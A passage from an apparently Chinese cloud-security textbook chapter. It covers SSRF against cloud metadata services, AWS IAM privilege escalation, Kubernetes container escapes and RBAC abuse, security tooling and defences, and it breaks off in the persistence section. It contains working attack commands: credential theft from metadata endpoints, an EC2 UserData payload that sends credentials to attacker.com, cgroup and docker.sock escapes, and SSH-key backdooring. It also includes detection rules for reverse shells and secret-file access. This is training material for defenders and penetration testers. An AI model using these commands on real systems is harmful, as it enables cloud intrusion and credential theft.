








# 第19章 云安全 - 深度拓展

本章深度拓展是为已完成云安全基础学习、希望向安全研究员和高级攻防方向发展的读者准备的进阶内容。我们将从攻击链的完整视角出发，深入剖析每个技术环节的原理机制，结合真实泄露事件的复盘，帮助读者建立系统性的云安全攻防思维。

---

## 一、云元数据服务攻击：从SSRF到全域控制

### 1.1 元数据服务的架构原理

云元数据服务是云平台向运行中的实例暴露自身信息的内部HTTP接口。所有主流云平台都在 `169.254.169.254` 这个链路本地地址上提供此服务。从架构角度看，元数据服务运行在虚拟化层（Hypervisor），不在实例的网络栈中传输，因此不受实例安全组或iptables规则的约束——这是它的设计特性，也是它的安全隐患根源。



元数据服务之所以成为云安全的核心攻击面，原因有三：

1. **无认证访问**：IMDSv1不需要任何认证头，任何能发起HTTP请求的进程都可以访问
2. **高权限凭证**：附加了IAM角色的实例会通过元数据服务暴露临时STS凭证
3. **无处不在的SSRF**：Web应用中SSRF是最常见的漏洞类型之一，而元数据地址永远可达

### 1.2 AWS IMDSv1 vs IMDSv2：协议级对比

IMDSv2（Instance Metadata Service Version 2）是AWS在2019年推出的增强版协议，其核心设计目标是防御SSRF攻击。两者的关键差异：

| 特性 | IMDSv1 | IMDSv2 |
|------|--------|--------|
| 请求方式 | 简单GET请求 | PUT获取Token + Token附加在GET请求头 |
| 认证机制 | 无 | 基于Token的会话认证 |
| SSRF防护 | 无——GET请求可被重放 | 有效——PUT请求通常不被SSRF代理转发 |
| HTTP跳数限制 | 无 | 默认1跳（可配置1-64） |
| Token有效期 | N/A | 最长6小时（可配置） |
| 兼容性 | 所有实例类型 | 需要实例支持（2018年11月后的AMI） |

IMDSv2防御SSRF的技术原理：

```bash
# IMDSv2的两步认证流程
# 第一步：PUT请求获取Token（必须指定TTL）
TOKEN=$(curl -X PUT "http://169.254.169.254/latest/api/token" \
  -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")

# 第二步：使用Token访问元数据
curl -H "X-aws-ec2-metadata-token: $TOKEN" \
  http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

为什么PUT请求能防御SSRF？绝大多数SSRF漏洞发生在HTTP代理、URL预览、Webhook回调等场景中，这些组件通常只转发GET请求。即使存在POST转发，PUT请求更少被支持。此外，`X-aws-ec2-metadata-token-ttl-seconds` 是必须在PUT阶段设置的自定义头，攻击者无法通过注入URL参数来携带它。

**但IMDSv2并非万能**。以下场景仍然可以绕过：

- **服务端请求伪造到SSRF链**：如果SSRF漏洞允许发送任意HTTP方法（包括PUT），攻击者可以先PUT获取Token再GET获取凭证
- **反向代理绕过**：如果目标应用使用Nginx反向代理且未限制HTTP方法，PUT请求会被转发
- **容器内的元数据访问**：运行在EC2上的容器如果共享主机网络命名空间，可以直接访问IMDS

### 1.3 三大云平台元数据攻击完整对比

```bash
# ========== AWS ==========
# IMDSv1 - 简单直接
curl http://169.254.169.254/latest/meta-data/
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_NAME
# 返回的JSON包含 AccessKeyId, SecretAccessKey, Token, Expiration

# IMDSv2 - 两步认证
TOKEN=$(curl -X PUT "http://169.254.169.254/latest/api/token" \
  -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")
curl -H "X-aws-ec2-metadata-token: $TOKEN" \
  http://169.254.169.254/latest/user-data/

# ========== GCP ==========
# GCP元数据服务需要特殊头，但默认不防御SSRF
curl -H "Metadata-Flavor: Google" \
  http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/email
curl -H "Metadata-Flavor: Google" \
  http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/token
# 返回 access_token, expires_in, token_type

# GCP递归元数据（获取所有信息）
curl -H "Metadata-Flavor: Google" \
  "http://metadata.google.internal/computeMetadata/v1/?recursive=true"

# ========== Azure ==========
# Azure IMDS需要 Metadata:true 头
curl -H "Metadata:true" \
  "http://169.254.169.254/metadata/instance?api-version=2021-02-01"
# Azure Managed Identity令牌
curl -H "Metadata:true" \
  "http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/&client_id=CLIENT_ID"
```

**GCP元数据服务的特殊风险**：虽然GCP要求 `Metadata-Flavor: Google` 头，但这个头可以在许多SSRF场景中被注入。2019年Capital One数据泄露事件中，攻击者正是通过SSRF获取了AWS元数据中的IAM凭证，访问了S3中超过1亿用户的个人信息。GCP的递归元数据查询（`?recursive=true`）更是可以一次性暴露实例的全部配置信息。

### 1.4 元数据攻击的完整实战链路

以AWS环境为例，从SSRF到完整控制的攻击链路：

```text
阶段1：发现SSRF入口
  └─> 识别应用中的URL处理功能（图片加载、Webhook、PDF生成等）
  └─> 测试内网可达性：http://169.254.169.254/latest/meta-data/

阶段2：提取元数据
  └─> 枚举IAM角色名：/latest/meta-data/iam/security-credentials/
  └─> 获取临时凭证：/latest/meta-data/iam/security-credentials/ROLE_NAME
  └─> 获取实例信息：/latest/meta-data/instance-id, /latest/dynamic/instance-identity/document

阶段3：凭证利用
  └─> 配置AWS CLI使用获取的临时凭证
  └─> 枚举当前角色权限：aws sts get-caller-identity
  └─> 检查附加策略：aws iam list-attached-role-policies

阶段4：横向移动
  └─> S3桶枚举和数据窃取
  └─> Lambda函数代码获取（可能包含更多密钥）
  └─> EC2快照创建和共享（获取其他实例的磁盘数据）
  └─> CloudTrail日志篡改（如果权限足够）
```

---

## 二、IAM权限提升：从低权限到全域控制

### 2.1 AWS IAM权限提升攻击矩阵

IAM权限提升是云渗透测试中最关键的技能。AWS IAM的权限模型基于策略（Policy），策略可以附加在用户、用户组、角色上。权限提升的本质是找到策略配置中的逻辑缺陷。



### 2.2 五大IAM提权路径详解

**路径一：iam:PassRole + 服务创建**

`iam:PassRole` 是AWS中一个常被忽视的高危权限。它允许将IAM角色传递给AWS服务（如EC2、Lambda、Glue），而服务会以该角色的权限运行。如果攻击者同时拥有 `iam:PassRole` 和创建某项服务资源的权限，就可以将自己的代码注入到高权限角色中执行。

```bash
# 检查是否有PassRole权限
aws iam simulate-principal-policy \
  --policy-source-arn arn:aws:iam::ACCOUNT:user/low-priv-user \
  --action-names iam:PassRole lambda:CreateFunction \
  --resource-arns arn:aws:iam::ACCOUNT:role/high-priv-role

# 如果有权限，创建一个Lambda函数，绑定高权限角色
aws lambda create-function \
  --function-name privesc \
  --runtime python3.9 \
  --role arn:aws:iam::ACCOUNT:role/high-priv-role \
  --handler lambda_function.lambda_handler \
  --zip-file fileb://payload.zip

# payload.zip中的代码可以执行任何高权限角色允许的操作
```

**路径二：iam:CreatePolicyVersion**

如果攻击者拥有 `iam:CreatePolicyVersion` 权限，可以直接修改附加在自己或目标用户上的策略，将 `Effect` 从 `Deny` 改为 `Allow`，或直接添加 `Action: "*"` 的允许语句。

```bash
# 创建新的策略版本，授予完全管理权限
aws iam create-policy-version \
  --policy-arn arn:aws:iam::ACCOUNT:policy/target-policy \
  --policy-document '{
    "Version": "2012-10-17",
    "Statement": [{
      "Effect": "Allow",
      "Action": "*",
      "Resource": "*"
    }]
  }' \
  --set-as-default

# 注意：IAM策略最多只能有5个版本，需要先删除旧版本
```

**路径三：STS AssumeRole链**

如果当前角色可以assume其他角色，攻击者可以构建assume链，逐步接近高权限角色。

```bash
# 检查可以assume的角色
aws sts assume-role \
  --role-arn arn:aws:iam::TARGET_ACCOUNT:role/cross-account-role \
  --role-session-name attacker-session

# 使用返回的临时凭证重复枚举
# 可能发现更深层的跨账户信任关系
```

**路径四：EC2 UserData注入**

拥有 `ec2:RunInstances` 和 `ec2:ModifyInstanceAttribute` 权限的攻击者可以创建或修改EC2实例的UserData。UserData在实例启动时以root权限执行，可以用来窃取更高权限角色的元数据凭证。

```bash
# 创建EC2实例，注入恶意UserData
aws ec2 run-instances \
  --image-id ami-xxxxxxxx \
  --instance-type t2.micro \
  --iam-instance-profile Name=high-priv-role \
  --user-data '#!/bin/bash
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/ > /tmp/creds
curl -X POST https://attacker.com/exfil -d @tmp/creds'
```

**路径五：RDS/IAM数据库认证**

如果攻击者拥有 `rds-db:connect` 权限，可以通过IAM角色直接登录RDS数据库，绕过数据库层的认证。

### 2.3 Pacu实战：自动化IAM提权检测

```bash
# 安装并启动Pacu
pip install pacu
pacu

# 导入凭证
import_keys compromised-user

# 运行IAM提权检测模块
run iam__privesc_scan

# Pacu会自动检测以下提权路径：
# - 已知的IAM提权方法（50+种）
# - PassRole滥用
# - 策略版本操作
# - 边界策略绕过
# - 信任关系利用

# 查看检测结果
whoami
iam__enum_users_roles_policies_groups
```

---

## 三、Kubernetes安全深度剖析

### 3.1 Kubernetes攻击面全景

Kubernetes的安全攻击面涵盖控制平面、数据平面、供应链三个层面。理解攻击面的全貌是制定有效防御策略的前提。



### 3.2 容器逃逸技术原理与实战

容器逃逸是Kubernetes安全中最受关注的攻击技术。容器的安全隔离依赖Linux内核的多个子系统——Namespace（命名空间隔离）、Cgroups（资源限制）、Seccomp（系统调用过滤）、AppArmor/SELinux（强制访问控制）。逃逸的本质是突破这些隔离机制。

**逃逸技术一：特权容器逃逸**

特权容器（`privileged: true`）禁用了几乎所有安全机制。它拥有宿主机的所有capabilities，可以直接访问宿主机设备。

```bash
# 在特权容器内，直接挂载宿主机磁盘
mkdir /mnt/host
mount /dev/sda1 /mnt/host
chroot /mnt/host

# 现在你拥有宿主机的完整root shell
# 可以读取所有Pod的Secret、修改kubelet配置、植入后门

# 更隐蔽的方式：向宿主机写入SSH公钥
mkdir -p /mnt/host/root/.ssh
echo "attacker-public-key" >> /mnt/host/root/.ssh/authorized_keys
```

**逃逸技术二：Docker Socket挂载逃逸**

当容器内挂载了 `/var/run/docker.sock` 时，容器可以通过Docker API创建新的特权容器，从而访问宿主机。

```bash
# 检测Docker Socket是否挂载
ls -la /var/run/docker.sock

# 通过Docker API创建特权容器，挂载宿主机根目录
# 需要安装docker CLI或使用curl直接调API
curl --unix-socket /var/run/docker.sock \
  -X POST "http://localhost/v1.41/containers/create" \
  -H "Content-Type: application/json" \
  -d '{
    "Image": "alpine",
    "Cmd": ["/bin/sh"],
    "Binds": ["/:/host"],
    "Privileged": true
  }'

# 启动容器并进入
# 然后 chroot /host 即可获得宿主机root权限
```

**逃逸技术三：CVE-2022-0185 - 内核堆溢出逃逸**

这是一个影响Linux内核5.1+的堆溢出漏洞，存在于文件系统上下文处理代码中。非特权用户可以通过构造特殊的 `fsconfig` 系统调用触发内核堆溢出，最终获得容器外的root权限。

```bash
# 检查内核版本是否受影响
uname -r
# 5.1 到 5.16.2 之间的内核受影响

# 利用条件：
# 1. 容器需要 CAP_SYS_ADMIN capability（非特权容器默认没有）
# 2. 但可以通过 User Namespace 获取

# 利用原理：
# fsconfig系统调用的 FSCONFIG_SET_STRING 命令
# 没有正确验证参数长度，可以写入超过4096字节的数据
# 这导致堆溢出，覆盖相邻的内核对象
# 攻击者通过精心构造溢出数据，修改进程的cred结构体
# 将uid/gid设为0，获得root权限
```

**逃逸技术四：Cgroup逃逸（CVE-2022-0492）**

```bash
# 利用cgroup v1的release_agent机制
# 前提：容器有 CAP_SYS_ADMIN capability

# 1. 创建新的cgroup
mkdir /tmp/cgrp
mount -t cgroup -o rdma cgroup /tmp/cgrp
mkdir /tmp/cgrp/x

# 2. 设置notify_on_release
echo 1 > /tmp/cgrp/x/notify_on_release

# 3. 设置release_agent为宿主机上的命令
host_path=$(sed -n 's/.*\upperdir=\([^,]*\).*/\1/p' /etc/mtab)
echo "$host_path/cmd" > /tmp/cgrp/release_agent

# 4. 触发release_agent执行
echo 'sh -c "id > /output"' > /tmp/cgrp/x/cgroup.procs

# 5. 在宿主机上查看结果
cat /output
# uid=0(root) gid=0(root)
```

### 3.3 RBAC权限提升的系统化方法

Kubernetes RBAC（基于角色的访问控制）配置错误是集群安全中最常见的问题。RBAC提权的系统化检测流程：

```bash
# 1. 获取当前身份和权限
kubectl auth can-i --list 2>/dev/null | grep -v "selfsubjectaccessreviews"
kubectl whoami

# 2. 检查ServiceAccount Token（如果在Pod内）
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
CACERT=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt
NS=$(cat /var/run/secrets/kubernetes.io/serviceaccount/namespace)

# 3. 使用Token枚举集群资源
curl -s --cacert $CACERT \
  -H "Authorization: Bearer $TOKEN" \
  https://kubernetes.default.svc/api/v1/namespaces

# 4. 检查关键提权路径
# 路径A：可以创建Pod in kube-system？
kubectl auth can-i create pods -n kube-system

# 路径B：可以列出/获取Secrets？
kubectl auth can-i list secrets --all-namespaces
kubectl auth can-i get secrets -n kube-system

# 路径C：可以创建ClusterRoleBinding？
kubectl auth can-i create clusterrolebindings

# 路径D：可以impersonate其他用户？
kubectl auth can-i create serviceaccounts/token

# 5. 如果可以创建Pod，部署特权Pod获取节点访问
cat <<'EOF' | kubectl apply -f -
apiVersion: v1
kind: Pod
metadata:
  name: node-shell
  namespace: default
spec:
  hostNetwork: true
  hostPID: true
  hostIPC: true
  containers:
  - name: shell
    image: alpine
    command: ["/bin/sh", "-c", "sleep infinity"]
    securityContext:
      privileged: true
    volumeMounts:
    - name: host-root
      mountPath: /host
  volumes:
  - name: host-root
    hostPath:
      path: /
  nodeName: TARGET_NODE_NAME
EOF

# 6. 进入Pod，挂载宿主机
kubectl exec -it node-shell -- chroot /host
```

### 3.4 Kubernetes安全工具实战

```bash
# ===== KubeHunter - 主动安全扫描 =====
pip install kube-hunter
# 远程扫描（从外部视角）
kube-hunter --remote 10.0.0.0/24 --active
# 内部扫描（从Pod内部视角）
kube-hunter --internal
# 输出JSON格式报告
kube-hunter --remote 10.0.0.0 --active --report json

# ===== Trivy - 漏洞扫描 =====
# 扫描镜像漏洞
trivy image nginx:latest
# 扫描Kubernetes集群配置
trivy k8s --report summary cluster
# 扫描Helm Charts的安全问题
trivy config ./charts/

# ===== Falco - 运行时威胁检测 =====
# 自定义规则：检测容器内的反向Shell
- rule: Reverse Shell in Container
  desc: Detect reverse shell connection from container
  condition: >
    spawned_process and container and
    proc.name = bash and
    (fd.type = ipv4 or fd.type = ipv6) and
    (fd.name contains ":4444" or fd.name contains ":443" or
     fd.name contains ":1234")
  output: >
    Reverse shell detected in container
    (user=%user.name container=%container.name
    shell=%proc.name connection=%fd.name
    parent=%proc.pname command=%proc.cmdline)
  priority: CRITICAL

# ===== kubeaudit - 配置审计 =====
# 安装kubeaudit
go install github.com/Shopify/kubeaudit@latest
# 审计所有namespace
kubeaudit all
# 检查特权容器
kubeaudit privileged
# 检查root用户运行的容器
kubeaudit runasroot
# 检查缺少resource limits的Pod
kubeaudit limits
```

---

## 四、云安全新兴威胁与前沿技术

### 4.1 云供应链攻击深度分析

云供应链攻击是近年来增长最快的威胁类型。与传统供应链攻击不同，云供应链攻击面更广——从容器基础镜像、Helm Charts、Terraform模块到CI/CD管道中的每一个依赖。

**典型攻击案例复盘：**

**Codecov供应链攻击（2021年1月-4月）**

攻击者篡改了Codecov的Bash Uploader脚本。由于该脚本通过Docker镜像分发，攻击者修改了Docker镜像中的脚本，将环境变量（包含CI/CD中的密钥和Token）外传到攻击者控制的服务器。影响持续了两个月，涉及数万个CI/CD管道。攻击链：

```text
修改Codecov Docker镜像中的Bash Uploader
  → 用户CI/CD Pipeline自动拉取被篡改的脚本
  → 脚本读取CI环境变量（包含敏感凭证）
  → 变量内容外传至攻击者服务器
  → 攻击者使用泄露的凭证访问用户代码仓库和云资源
```

**Log4Shell（CVE-2021-44228）的云安全影响**

Log4j漏洞影响了几乎所有运行Java的云服务。在云环境中，其影响被放大：

- Lambda函数、Cloud Functions等无服务器环境直接暴露
- Kubernetes集群中的Java微服务互相传播
- 云日志服务（CloudWatch、Stackdriver）处理的恶意日志触发二次漏洞
- 应用网关（API Gateway）的自定义授权Lambda可能使用Log4j

**防御体系构建：**

```bash
# 1. 软件物料清单（SBOM）生成
# 使用Syft生成容器镜像的SBOM
syft nginx:latest -o spdx-json > sbom.json

# 2. 依赖项漏洞扫描
# 使用Grype扫描SBOM中的已知漏洞
grype sbom:sbom.json

# 3. 容器镜像签名和验证
# 使用Cosign签名镜像
cosign sign --key cosign.key registry.example.com/app:v1

# 验证镜像签名
cosign verify --key cosign.pub registry.example.com/app:v1

# 4. CI/CD管道安全
# 使用SLSA框架验证构建产物的来源
# Level 1: 构建过程有文档记录
# Level 2: 使用托管构建服务，生成来源证明
# Level 3: 构建平台不可篡改，来源证明经过签名
# Level 4: 双人审核，可复现构建
```

### 4.2 eBPF安全监控技术

eBPF（extended Berkeley Packet Filter）是云原生安全监控的革命性技术。它允许在Linux内核中安全地运行沙箱程序，无需修改内核代码或加载内核模块。eBPF在安全领域的应用包括：网络流量监控、系统调用过滤、运行时威胁检测。



**Cilium Tetragon实战：**

Tetragon是Cilium项目中的eBPF安全监控组件，可以在内核层面检测和阻止恶意行为。

```bash
# 安装Tetragon
helm repo add cilium https://helm.cilium.io/
helm install tetragon cilium/tetragon -n kube-system

# 定义TracingPolicy检测敏感文件访问
cat <<'EOF' | kubectl apply -f -
apiVersion: cilium.io/v1alpha1
kind: TracingPolicy
metadata:
  name: sensitive-file-access
spec:
  kprobes:
  - call: "fd_install"
    syscall: false
    args:
    - index: 0
      type: int
    - index: 1
      type: "file"
    selectors:
    - matchArgs:
      - index: 1
        operator: "Prefix"
        values:
        - "/etc/shadow"
        - "/etc/passwd"
        - "/var/run/secrets/"
EOF

# 查看告警
kubectl logs -n kube-system -l app.kubernetes.io/name=tetragon -c export-stdout -f
```

### 4.3 云安全态势管理（CSPM）架构

CSPM是云安全治理的核心工具类别。它通过持续监控云资源配置，自动检测偏离安全基线的配置错误。



**Prowler实战——AWS安全审计：**

```bash
# 安装Prowler
pip install prowler

# 执行完整审计
prowler aws

# 只运行特定检查
prowler aws --checks s3_bucket_public_access

# 按合规框架检查
prowler aws --compliance cis_2.0

# 输出HTML报告
prowler aws --output-format html

# 常见高危发现及修复：
# 1. S3桶公开访问
# 发现：Bucket policy允许 s3:GetObject 给 "*"
# 修复：aws s3api put-bucket-policy --bucket NAME --policy file://private-policy.json

# 2. 安全组入站规则过宽
# 发现：0.0.0.0/0 入站到端口 22/3389
# 修复：aws ec2 revoke-security-group-ingress --group-id sg-xxx --protocol tcp --port 22 --cidr 0.0.0.0/0

# 3. RDS实例公开访问
# 发现：PubliclyAccessible=true
# 修复：aws rds modify-db-instance --db-instance-identifier xxx --no-publicly-accessible
```

### 4.4 机密计算与零信任架构

**机密计算**保护的是"使用中的数据"（Data in Use）。传统加密保护静态数据（Data at Rest）和传输数据（Data in Transit），但数据在CPU中处理时必须解密。机密计算通过硬件安全飞地（TEE）解决这个问题：

| 技术 | 厂商 | 实现层级 | 适用场景 |
|------|------|----------|----------|
| Intel SGX | Intel | 应用层飞地 | 敏感计算隔离、密钥管理 |
| AMD SEV-SNP | AMD | 虚拟机级别 | 全VM加密、多租户隔离 |
| ARM CCA | ARM | Realm域 | 边缘计算、IoT |
| Intel TDX | Intel | 虚拟机级别 | 机密虚拟机 |

**零信任架构在云中的实现层次：**

```bash
# 层次1：身份验证（无隐含信任）
# 所有访问请求必须经过身份验证
# 实施：AWS IAM Identity Center + MFA
aws sso-admin create-permission-set --name ZeroTrustAccess

# 层次2：设备信任（设备必须合规）
# 实施：AWS Systems Manager检查实例合规性
aws ssm describe-instance-patch-states --instance-ids i-xxx

# 层次3：网络微分段（最小网络权限）
# 实施：Security Group + VPC Endpoint
aws ec2 create-vpc-endpoint \
  --vpc-id vpc-xxx \
  --service-name com.amazonaws.region.s3 \
  --vpc-endpoint-type Gateway

# 层次4：数据分类和加密
# 所有数据默认加密，敏感数据需要额外访问控制
aws s3api put-bucket-encryption --bucket NAME \
  --server-side-encryption-configuration '{
    "Rules": [{"ApplyServerSideEncryptionByDefault": {"SSEAlgorithm": "aws:kms"}}]
  }'

# 层次5：持续监控和响应
# 所有操作记录在CloudTrail，异常行为触发自动响应
aws cloudtrail lookup-events --lookup-attributes AttributeKey=EventName,AttributeValue=ConsoleLogin
```

### 4.5 WebAssembly容器安全

WebAssembly（Wasm）正在成为新一代容器运行时，其安全模型与传统Linux容器有本质区别：

| 特性 | Linux容器（Docker） | Wasm容器 |
|------|---------------------|----------|
| 隔离机制 | Namespace + Cgroups | 沙箱化的线性内存 |
| 系统调用 | 直接调用内核syscall | 通过WASI能力模型限制 |
| 镜像大小 | 通常10MB-1GB | 通常100KB-10MB |
| 启动时间 | 秒级 | 毫秒级 |
| 攻击面 | 内核syscall（300+） | WASI接口（极少数） |
| 权限模型 | 基于root/用户 | 基于能力的最小权限 |

```bash
# 使用Spin（Fermyon的Wasm微服务框架）部署安全微服务
spin new -t http-rust secure-api
cd secure-api

# Spin默认使用基于能力的安全模型
# 只能访问在spin.toml中显式声明的资源
# 例如：只有对特定目录的文件读写权限
spin build
spin up --listen 127.0.0.1:3000
```

---

## 五、云环境攻防对抗实战

### 5.1 云环境渗透测试方法论

云渗透测试与传统渗透测试有根本性差异。传统渗透测试关注网络边界，而云渗透测试关注身份和配置。



**阶段一：信息收集（云环境专用）**

```bash
# 域名和子域名发现（寻找云服务入口）
subfinder -d target.com -silent | httpx -silent

# 云存储桶发现
# 使用cloud_enum进行多云存储桶枚举
python3 cloud_enum.py -k target-company

# S3桶名枚举（AWS）
aws s3 ls s3://target-company --no-sign-request 2>/dev/null
aws s3 ls s3://target-company-dev --no-sign-request 2>/dev/null
aws s3 ls s3://target-company-staging --no-sign-request 2>/dev/null

# Azure Blob枚举
# 使用MicroBurst
Import-Module .\MicroBurst.psm1
Invoke-EnumerateAzureBlobs -Base target-company

# 云元数据信息收集
# User-Agent枚举（识别云平台）
# 不同云平台的错误页面特征
# AWS: NoSuchBucket, AccessDenied
# Azure: BlobNotFound, InvalidBlobName
# GCP: NoSuchBucket, NoSuchKey
```

### 5.2 云环境持久化技术

持久化是高级持续性威胁（APT）的关键环节。云环境中的持久化技术比传统环境更隐蔽、更难检测。

**AWS持久化技术：**

```bash
# 1. 创建新的IAM访问密钥（最隐蔽）
aws iam create-access-key --user-name target-user
# 检测：CloudTrail的CreateAccessKey事件

